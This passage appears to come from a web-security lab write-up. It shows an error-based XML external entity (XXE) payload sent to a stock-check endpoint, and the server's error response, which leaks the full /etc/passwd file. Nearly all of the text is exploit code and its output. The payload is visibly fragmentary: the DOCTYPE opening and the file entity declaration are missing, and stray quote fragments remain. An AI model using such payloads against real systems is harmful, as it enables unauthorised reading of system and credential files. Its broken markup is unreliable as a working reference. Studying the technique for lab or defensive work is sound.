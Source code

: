 ```http
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        
        &#x25;eval;
        &#x25;error;



    '>




    %local_dtd;
]>


<stockCheck><productId>3</productId><storeId>1</storeId></stockCheck>



```

response:
```http

HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1359

"XML parser exited with error: java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin (No such file or directory)"
```
